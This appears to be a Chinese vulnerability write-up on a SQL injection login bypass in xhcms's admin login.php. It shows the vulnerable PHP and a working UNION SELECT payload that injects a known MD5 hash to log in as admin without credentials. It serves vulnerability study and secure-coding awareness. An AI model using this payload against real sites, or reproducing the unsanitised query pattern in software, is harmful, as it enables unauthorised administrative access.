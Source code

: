 #### 漏洞详情： ####
漏洞位置：admin/files/login.php

    <?php 
    ob_start();
    require '../inc/conn.php';
    $login=$_POST['login'];
    $user=$_POST['user'];
    $password=$_POST['password'];
    $checkbox=$_POST['checkbox'];
    
    if ($login<>""){
    $query = "SELECT * FROM manage WHERE user='$user'";
    $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
    $users = mysql_fetch_array($result);
    
    if (!mysql_num_rows($result)) {  
    echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
    exit;
    }else{
    $passwords=$users['password'];
    if(md5($password)<>$passwords){
    echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
    exit;   
    }
    //写入登录信息并记住30天
    if ($checkbox==1){
    setcookie('user',$user,time()+3600*24*30,'/');
    }else{
    setcookie('user',$user,0,'/');
    }
    echo "<script>this.location='?r=index'</script>";
    exit;
    }
    exit;
    ob_end_flush();
    }
    ?>
万能密码登录有两个点：

1.user未经过过滤直接拼接进入数据库查询

2.password的md5对比可绕过

payload:

    user:1' union select 1,2,'test','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#
    password:1
    
    此处md5(1)=c4ca4238a0b923820dcc509a6f75849b

我们进入后台，在账号一栏中填入payload，密码输入mad5加密的1即可成功登录。

![](后台万能密码登录.assets/20200417210643-48d1ff22-80ac-1.png)
![](后台万能密码登录.assets/20200417210717-5cf79732-80ac-1.png)

漏洞分析

我们登录我们的mysql数据库，查询xhcms库下的manage表
![](后台万能密码登录.assets/20200417210537-2174ba32-80ac-1.png)
我们使用联合查询的方法，发现结果在数据库下添加一行新的参数，而添加的值我们是可控的。

所以我们的payload就是通过传入新的md5加密后的password，从而达到绕过验证，直接登录的目的。

### 参考链接 ###
https://xz.aliyun.com/t/7629